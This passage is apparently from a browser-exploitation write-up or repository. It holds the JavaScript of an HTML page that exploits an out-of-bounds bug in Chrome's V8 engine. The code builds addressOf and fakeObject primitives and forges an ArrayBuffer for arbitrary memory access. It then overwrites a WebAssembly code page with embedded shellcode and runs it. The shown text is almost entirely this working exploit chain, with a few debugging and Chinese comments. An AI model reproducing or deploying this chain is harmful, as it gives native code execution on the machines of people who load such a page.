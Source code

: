 ```
   var addr = u64f(b[0]) - 0x1n;
   b.oob(obj_element_map);
   return addr;
`}`

function fakeObject(addr) `{`
   a[0] = i2f64(addr + 1n);
   a.oob(obj_element_map);
   var mobj = a[0];
   a.oob(unboxed_double_map);
   return mobj;
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var faker = [0.0,1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
var faker_addr = addressOf(faker);
//alert('wasm='+addressOf(wasmInstance).toString(16));
wasm_shellcode_ptr_addr = addressOf(wasmInstance) + 0x88n;
var element_addr = faker_addr - 0x50n;
//print('element_addr=' + element_addr.toString(16));
//fake a ArrayBuffer's Map
faker[0] = i2f64(0n);
faker[1] = i2f64(0x1900042317080808n);
faker[2] = i2f64(0x00000000084003ffn);
faker[3] = i2f64(0);

//faker a ArrayBuffer
faker[4] = i2f64(element_addr+0x1n); //map
faker[5] = i2f64(0); //properties
faker[6] = i2f64(0); //elements
faker[7] = p64f(0xffffffff,0); //length
faker[8] = i2f64(wasm_shellcode_ptr_addr);
faker[9] = 0x2;

var arb_ArrayBuffer = fakeObject(element_addr+0x20n);
var adv = new DataView(arb_ArrayBuffer);
var wasm_shellcode_addr = adv.getBigUint64(0,true);
//alert('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));
faker[8] = i2f64(wasm_shellcode_addr);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();

    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```
